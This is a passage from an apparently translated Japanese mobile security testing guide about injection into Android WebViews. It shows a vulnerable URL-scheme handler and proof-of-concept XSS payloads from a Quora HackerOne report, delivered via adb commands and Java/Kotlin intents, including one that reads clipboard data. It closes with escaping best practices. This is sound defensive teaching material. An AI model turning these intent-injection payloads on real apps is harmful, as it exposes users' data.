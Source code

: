 ```kotlin
    fun shouldOverrideUrlLoading(view: WebView, url: String): Boolean {
        if (url.substring(0, 6).equals("yourscheme:", ignoreCase = true)) {
            // parse the URL object and execute functions
        }
    }
```

Sergey Bobrov はこれを以下の [HackerOne report](https://hackerone.com/reports/189793) で使用しました。HTML パラメータへの任意の入力が Quora の ActionBarContentActivity で信頼されます。ペイロードは adb の使用、ModalContentActivity を介したクリップボードデータ、サードパーティアプリケーションからのインテントに成功しました。

- ADB
```shell
$ adb shell
$ am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
```
- Clipboard Data
```shell
$ am start -n com.quora.android/com.quora.android.ModalContentActivity -e url 'http://test/test' -e html '<script>alert(QuoraAndroid.getClipboardData());</script>'
```
- 3rd party Intent

Java
```java
Intent i = new Intent();
i.setComponent(new ComponentName("com.quora.android","com.quora.android.ActionBarContentActivity"));
i.putExtra("url","http://test/test");
i.putExtra("html","XSS PoC <script>alert(123)</script>");
view.getContext().startActivity(i);
```
Kotlin

```kotlin
val i = Intent()
i.component = ComponentName("com.quora.android", "com.quora.android.ActionBarContentActivity")
i.putExtra("url", "http://test/test")
i.putExtra("html", "XSS PoC <script>alert(123)</script>")
view.context.startActivity(i)
```

WebView を使用してリモートウェブサイトを表示する場合、HTML をエスケープする負担はサーバ側に移ります。XSS の欠陥がウェブサーバーに存在する場合、これを使用して WebView のコンテキストでスクリプトを実行できます。したがって、ウェブアプリケーションソースコードの静的解析を実行することが重要です。

以下のベストプラクティスに準じていることを確認します。

- 絶対に必要でない限り、信頼できないデータを HTML, JavaScript, 他の解釈されるコンテキストで処理していません。

- エスケープ文字には HTML エンティティエンコーディングなどの適切なエンコーディングが適用されています。注：エスケープのルールは HTML が他のコード内にネストされていると複雑になります。例えば、JavaScript ブロック内にある URL を処理するなどです。

レスポンスでのデータの処理方法を検討します。例えば、データが HTML コンテキストで処理される場合に、エスケープする必要がある六つの制御文字です。

| 文字 | エスケープ後 |
| :-------------: |:-------------:|
| & | &amp;amp;|
| < | &amp;lt; |
| > | &amp;gt;|
| " | &amp;quot;|
| ' | &amp;#x27;|
| / | &amp;#x2F;|
